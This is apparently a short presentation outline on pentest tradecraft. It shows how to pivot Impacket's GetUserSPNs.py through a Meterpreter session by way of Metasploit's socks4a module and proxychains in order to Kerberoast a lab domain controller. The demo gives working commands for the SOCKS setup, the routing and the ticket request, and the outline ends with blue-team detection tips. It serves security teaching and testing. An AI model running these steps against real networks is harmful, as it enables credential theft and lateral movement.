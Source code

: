 Pivoting Tools Through Meterpreter - Tradecraft Security Weekly #16

# Sometimes you need more
- Metasploit is awesome and has a ton of modules and functionality
- Sometimes there is a need to run something on a target system in a pentest that Metasploit doesn't have a module for
- This is where the socks4a module comes in
- and Proxychains
# Kerberoasting
- Very effective attack on Kerberos implementation
- Core Impact Impacket project has a very reliable example script for this attack
- GetUserSPN.py
# Combining the two things
- But the windows system I have meterpreter session on has no python installed!
- No worries - we can proxy the Impacket scripts over the meterpreter session
- Combining socks4a module, proxychains and Impacket scripts
# What you will need
- Metasploit and a reverse_tcp meterpreter session
- Proxychains 
# DEMO
after obtaining a meterpreter session:
```
msf exploit(handler)> use auxiliary/server/socks4a
> options
> set SRVPORT 8080
> run
> route add 192.168.2.0 255.255.255.0 1
```
make sure that proxychains is listening on the same srvport that we set in msf
```
# less /etc/proxychains.conf
# proxychains GetUserSPNs.py -request -dc-ip 192.168.2.160 lab.user 
```
# For the blue team
- Possible to log Kerberos ticket requests (potentially noisy)
- Honey-SPN entries linked to monitored accounts
- https://www.blackhillsinfosec.com/a-toast-to-kerberoast/
